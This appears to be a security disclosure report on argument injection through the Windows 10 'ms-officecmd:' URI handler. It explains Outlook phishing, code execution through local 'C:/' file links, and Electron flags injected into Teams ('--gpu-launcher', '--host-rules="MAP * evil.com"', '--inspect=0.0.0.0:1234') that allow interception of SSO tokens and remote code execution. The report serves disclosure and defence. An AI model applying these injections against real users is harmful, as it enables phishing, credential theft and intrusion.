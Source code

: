 Even without argument injection, we found the following two attacks to be possible:

*   Starting Outlook with a web URL as parameter opens this web page inside Outlook, allowing for very believable phishing attacks
*   Starting Outlook with a URL of the format `C:/.../some.exe/` (additional slash to pass the AppBridge.dll validation) makes Outlook parse the link as a local file link and redirect to/open/execute the file. This can be combined with Chrome's auto-download behaviour to gain abritrary code execution after a security warning

The vulnerability is in a default URI handler of Windows 10 and can be exploited from various applications. As an example, the attached 3_Thunderbird_RCE.mp4 showcases exploitation by opening a link in Thunderbird.

Additional Details
------------------

In a default Windows 10 installation, LocalBridge.exe is associated as the (only) handler for the "ms-officecmd:" URI scheme. The scheme is used internally by the Office PWA application to launch other Microsoft applications, but such links can be opened by any application, e.g. a web browser, email client or instant messanger. LocalBridge.exe (C#) parses the JSON, performs light validation, and when it encounters a "LocalProviders.LaunchOfficeAppForResult" key, calls the "LaunchOfficeAppValidated" function implemented in the native AppBridge.dll.  
LaunchOfficeAppValidated uses information from `details` to again search for the right executable (via `MyOffice::AppDiscovery::ResolveBest` / `MakeW32AppDiscovery`), to ensure that only specific Microsoft Apps are launched. Additional checks are performed on the filename value, e.g. to ensure it's a valid URI and does not end with a malicious file extension.

We investigated the potential impact of being able to launch those Microsoft apps with a user-chosen URI argument and found two attack vectors using Outlook:

1.  Advanced Phishing: When launching Outlook with a https URL, the website is loaded inside the Outlook UI (without address bar). Showing a cloned Office login page makes for a very believable phishing attack, especially if the user clicked on an email address before and expected Outlook to open. A demo video is attached (4_Outlook_Phishing.mp4).
2.  Code Execution: Outlook does not handle `file://` URLs, but is treating URLs of the scheme "C:/" like local file links. When opening Outlook with an "URI" argument pointing to a local exe file, Outlook asks the user for permission to open the link and, when granted, executes the local file. The attached PoC (3_Outlook_RCE_files.tar.gz) combines this with Chrome's autodownload behaviour (and an onclick-href rewrite) to gain arbitrary code execution with additional user interaction. (Demo video: 5_Outlook_Chrome_RCE.mp4)

Furthermore, it's possible to inject additional arguments via quote-escaping and URI encoding. We then focused on exploiting launch-able Electron Apps (esp. Teams) due to their complexity and to check whether Electron/Chromium/Node.js parameters can be injected in addition to application-specific command line parameters.  
As a fix for the critical CVE-2018-1000006 [2], Electron.js changed the command line parsing to prevent additional arguments after a URI. Checking the source code, we identified an exception for 1-letter URI schemes to prevent accidential triggering by Windows filenames that include drive letters ("C:/")[3]. As this 1-letter URI passes the AppBridge.dll check, we can inject additional arguments to Electron apps, which can be exploited in the following ways:

1.  `--gpu-launcher`: Similar to an RCE exploit for CVE-2018-1000006. In this case, the `--disable-gpu-sandbox` flag also needs to be set for successful exploitation. Otherwise, the external process is created, but exits again immediately.
2.  `--host-rules="MAP * evil.com"`: This option allows remapping any domain to an attacker-controlled one and therefore intercepting all Chromium traffic in plaintext, including the sent messages and Office365 SSO auth tokens. This does not result in TLS errors when a valid `evil.com` certificate is used, and TLS checking can be disabled completely with an additional `--ignore-certificate-errors` parameter. As MitM, the attacker can also inject JavaScript (and strip CSP headers).
3.  `--inspect=0.0.0.0:1234`: Starts a local node.js debug server and makes it available on all network interfaces. An attacker in the local network can retrieve the full endpoint URL by visiting `/json/list` on that webserver and then connect to the debug Websocket server to run arbitrary native code.  
    Additionally, #2 and #3 can be combined to start a node debug server and inject JS that talks to this local Web Socket Server, as another way to achieve remote code execution without local network access (requires disabling/bypassing the SOP to retrieve the debug UUID from `/json/list`).
